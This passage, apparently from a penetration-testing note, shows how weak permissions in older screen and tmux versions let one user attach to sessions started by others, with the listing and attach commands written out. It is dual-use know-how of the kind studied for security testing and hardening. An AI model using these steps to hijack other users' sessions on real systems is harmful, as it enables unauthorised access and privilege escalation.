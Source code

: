 ## Session Hijacking

In older versions, it was possible to exploit weak permissions in applications like **`screen`** and **`tmux`**, which allowed hijacking of sessions started by other users.

To perform this operation with `screen`:

```bash
# List available sessions
screen -ls

# Connect to the session
screen -dr [session]
```

To do it with `tmux`:

```bash
# List tmux sessions
tmux ls

# Connect to the session
tmux attach -t myname
tmux -S /tmp/dev_sess attach -t 0
```
